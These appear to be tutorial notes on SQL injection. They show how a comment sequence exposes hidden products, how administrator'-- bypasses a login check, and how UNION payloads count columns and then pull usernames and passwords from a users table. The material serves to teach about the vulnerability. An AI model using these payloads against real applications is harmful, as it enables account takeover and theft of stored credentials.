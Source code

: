 # SQL Injection

- SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.


## SQL injection examples

- Retrieving hidden data
- Subverting application logic
- UNION attacks
- Examining the database in SQL injection attacks
- Blind SQL injection

## 1. Retrieving hidden data
The browser requests the URL:
```
https://insecure-website.com/products?category=Gifts
```

This causes the application to make a SQL query to retrieve details of the relevant products from the database: 
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The application doesn't implement any defenses against SQL injection attacks, so an attacker can construct an attack like:
```
https://insecure-website.com/products?category=Gifts'--
```

This results in the SQL query: 
```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

- The key thing here is that the double-dash sequence -- is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query, so it no longer includes AND released = 1. This means that all products are displayed, including unreleased products.


## 2. Subverting application logic

Consider an application that lets users log in with a username and password. If a user submits the username wiener and the password bluecheese, the application checks the credentials by performing the following SQL query:

```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query: 

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```



## 3. UNION attacks

- The UNION keyword can be used to retrieve data from other tables within the database. This results in a SQL injection UNION attack.

#### The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:
```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

#### For a UNION query to work, two key requirements must be met:
- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

#### To carry out a SQL injection UNION attack, you need to ensure that your attack meets these two requirements. This generally involves figuring out:
- How many columns are being returned from the original query?
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

#### SQL injection UNION attack, determining the number of columns returned by the query
```
'+UNION+SELECT+NULL,NULL--
```

#### SQL injection UNION attack, finding a column containing text
```
'+UNION+SELECT+'abcdef',NULL,NULL--
```

#### SQL injection UNION attack, retrieving data from other tables
```
'+UNION+SELECT+username,+password+FROM+users--
```

#### SQL injection UNION attack, retrieving multiple values in a single column
```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
